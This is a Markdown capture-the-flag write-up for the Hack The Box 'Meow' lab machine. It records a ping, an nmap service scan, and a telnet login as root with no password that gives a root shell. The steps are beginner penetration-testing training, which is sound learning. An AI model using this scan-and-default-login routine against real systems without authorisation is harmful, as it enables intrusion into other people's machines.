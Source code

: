 # [Meow](https://app.hackthebox.com/starting-point)

## Target IP - 10.129.51.250

### Enumeration

Here we are checking if we are able to establish a connection with the target machine. In Conclusion we are able to establish a connection between our lab with the target.

**Command 1** -

`ping 10.129.51.250`

**Output** -

``` 
PING 10.129.51.250 (10.129.51.250) 56(84) bytes of data.
64 bytes from 10.129.51.250: icmp_seq=1 ttl=62 time=705 ms
64 bytes from 10.129.51.250: icmp_seq=2 ttl=62 time=234 ms
64 bytes from 10.129.51.250: icmp_seq=3 ttl=62 time=236 ms
64 bytes from 10.129.51.250: icmp_seq=4 ttl=62 time=2383 ms
64 bytes from 10.129.51.250: icmp_seq=5 ttl=62 time=1962 ms
64 bytes from 10.129.51.250: icmp_seq=6 ttl=62 time=1199 ms
64 bytes from 10.129.51.250: icmp_seq=7 ttl=62 time=475 ms
^C
--- 10.129.51.250 ping statistics ---
7 packets transmitted, 7 received, 0% packet loss, time 6069ms
rtt min/avg/max/mdev = 233.603/1027.815/2383.110/793.317 ms, pipe 3
```

Here we are scanning the target machine for the open ports or services. In conclusion we find out that there is a service named as `telnet` which is open on 23/tcp port. We can try accessing the service.

**Command 2** -

`nmap -sV 10.129.51.250`

**Output** -

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-15 12:55 IST
Nmap scan report for 10.129.51.250
Host is up (0.86s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.20 seconds
```

### Foothold

Here we tried to access the target machine through the telnet and tried different usernames like admin, administrator, and finally root which in the end worked without any password and we were able to get the root shell of the target machine in which we got the flag.txt.

**Command 3** - 

`telnet 10.129.51.250`

**Output** - 

```
Trying 10.129.51.250...
Connected to 10.129.51.250.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 15 Jul 2024 07:42:35 AM UTC

  System load:           0.21
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             143
  Users logged in:       0
  IPv4 address for eth0: 10.129.51.250
  IPv6 address for eth0: dead:beef::250:56ff:feb0:3799

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
``` 

### This machine had been pawned.

~~goobar07

